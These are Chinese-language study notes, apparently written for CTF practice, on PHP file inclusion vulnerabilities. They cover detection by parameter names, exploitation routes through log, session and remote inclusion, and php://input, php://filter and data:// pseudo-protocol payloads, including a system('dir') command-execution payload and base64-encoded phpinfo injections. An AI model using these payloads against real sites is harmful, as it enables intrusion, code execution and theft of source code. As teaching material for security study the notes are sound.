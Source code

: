 3、可通过**伪协议**玩法绕过相关修复等

==*PHP伪协议是PHP自己支持的一种协议与封装协议，简单来说就是PHP定义的一种特殊访问资源的方法*==
参考：#https://blog.csdn.net/unexpectedthing/article/details/121276653

### 黑盒分析：

-黑盒发现：主要观察==参数传递的数据==和==文件名==是否对应

URL中有path、dir、file、pag、page、archive、p、eng、语言文件等相关字眼

### 利用思路


#### 本地利用思路：

- 1、配合文件上传
- 2、无文件上传包含日志
- 3、无文件上传包含SESSION
- 4、无文件上传支持伪协议利用

#### 远程利用思路：

直接搭建一个可访问的远程URL包含文件



### php伪协议

##### php://input（allow_url_include=On）

遇到file_get_contents()要想到用php://input绕过
```

构造?file=php://input  
post data中输入：<?php system('dir');?>    //代码表示显示所有文件目录  
根据显示的文件目录直接进行访问（某txt或php文件），得到flag

```

##### php://filter

可以使用的函数：readfile()、file()、file_get_contents()、include()
```
?file=php://filter/read=convert.base64-encode/resource=index.php

伪协议可以套协议绕过正则
php://filter/convert.base64-encode/index/resource=flag.php
```

##### data://

要求allow_url_fopen=On，allow_url_include=On
```
?file=data://text/plain,<?php phpinfo()?>    //执行phpinfo()  

?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=    //将命令进行base64加密，编码为“<?php phpinfo()?> ”的base64编码  

?file=data:text/plain,<?php phpinfo()?>    //去掉双斜杠  
?file=data:text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
	data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```
